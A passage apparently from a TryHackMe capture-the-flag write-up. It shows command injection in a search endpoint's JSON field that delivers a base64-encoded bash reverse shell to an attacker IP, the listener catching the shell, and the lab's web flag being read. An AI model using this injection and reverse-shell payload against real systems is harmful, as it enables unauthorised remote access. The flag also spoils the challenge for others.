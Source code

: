## Reverse shell

Trying to inject a bash based reverse shell fails because of a filtering policy ("Invalid characters" returned). Let's base64 encode our payload:

~~~
kali@kali:/data/vpn$ echo -n "bash -i >& /dev/tcp/10.8.50.72/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjUwLjcyLzQ0NDQgMD4mMQ==
~~~

Here is the request with the base64 encoded reverse shell:

~~~
POST /assets/php/search.php HTTP/1.1
Host: 10.10.189.152
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.189.152/
Content-Type: text/plain;charset=UTF-8
Content-Length: 100
Authorization: Basic cmFzY2FsOnlvdW5nMQ==
Connection: close

{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjUwLjcyLzQ0NDQgMD4mMQ== | base64 -d | bash; \""}
~~~

We now have a reverse shell:

~~~
kali@kali:/data/Year_of_the_Fox/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.189.152] 36018
bash: cannot set terminal process group (657): Inappropriate ioctl for device
bash: no job control in this shell
www-data@year-of-the-fox:/var/www/html/assets/php$ pwd
pwd
/var/www/html/assets/php
~~~

## Web flag

From the reverse shell, I was able to find the web flag in `/var/www`:

~~~
www-data@year-of-the-fox:/var/www$ cat web-flag.txt
cat web-flag.txt
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}
~~~

We flag: `THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}`


# What the contents of the user flag?
